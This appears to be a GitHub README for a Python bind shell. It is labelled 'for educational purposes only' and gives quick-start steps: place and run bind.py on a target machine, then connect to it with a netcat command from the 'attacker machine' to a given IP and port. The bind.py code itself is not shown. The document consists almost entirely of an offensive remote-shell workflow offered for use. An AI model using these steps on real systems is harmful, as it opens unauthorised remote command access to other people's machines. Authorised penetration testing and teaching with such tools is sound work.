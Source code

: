 <p align="center">
  <h1 align="center"> Python Bind Shell: For Educational Purposes Only. 
Use only on hosts/networks you own or have permission to test. </h1>
</p>

## 🚀 Quick Start
## 1. Download 'bind.py' file to the target machine.
## 2. Edit it, adding IP address and ports.
## 3. Run it:
```bash
python3 bind.py
```
## 4. Run Netcat on the attacker machine, adding TARGET_IP_ADDRESS and TARGET_PORT:

```bash
nc 192.168.204.100 1234
``` 